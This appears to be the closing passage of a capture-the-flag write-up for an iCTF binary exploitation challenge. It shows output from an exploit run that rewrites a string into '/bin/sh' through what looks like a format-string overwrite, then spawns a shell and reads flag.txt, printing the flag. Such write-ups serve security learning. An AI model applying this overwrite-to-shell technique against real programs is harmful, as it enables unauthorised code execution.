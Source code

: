 ```
b'\nDone.\nHere ya go! Your string is:\n/bin/%14$p*****\nWhat character would you like to edit? (enter in 15 to see utils'
b')\nWhat character should be in that index?'
b'\nDone.\nHere ya go! Your string is:\n/bin/s14$p*****\nWhat character would you like to edit? (enter in 15 to see utils'
b')\nWhat character should be in that index?'
b'\nDone.\nHere ya go! Your string is:\n/bin/sh4$p*****\nWhat character would you like to edit? (enter in 15 to see utils'
b')\nWhat character should be in that index?'
b'\nDone.\nHere ya go! Your string is:\n/bin/sh\nWhat character would you like to edit? (enter in 15 to see utils'
b')\nWhat character should be in that index?'
b'\nDone.\nHere ya go! Your string is:\n/bin/sh\nWhat character would you like to edit? (enter in 15 to see utils'
b')\nWhat character should be in that index?'
b'\nDone.\nHere ya go! Your string is:\n/bin/sh\nWhat character would you like to edit? (enter in 15 to see utils'
b')\nWhat character should be in that index?'
b'\nDone.\nHere ya go! Your string is:\n/bin/sh\nWhat character would you like to edit? (enter in 15 to see utils'
b')\nWhat character should be in that index?'
b'\nDone.\nHere ya go! Your string is:\n/bin/sh\nWhat character would you like to edit? (enter in 15 to see utils'
b')\nWhat character should be in that index?'
b'\nDone.\nHere ya go! Your string is:\n/bin/sh\nWhat character would you like to edit? (enter in 15 to see utils'
b')\nWhat character should be in that index?'
b'\nDone.\nHere ya go! Your string is:\n/bin/sh\nWhat character would you like to edit? (enter in 15 to see utils'
b')\n1. Admire your string\n2. Delete your string\n3. Exit\n'
[*] Switching to interactive mode
$ ls
flag.txt
run
$ cat flag.txt
ictf{g0t_0v3rwr1te?????????????????????????_953a20b1}

```
Thanks for reading!

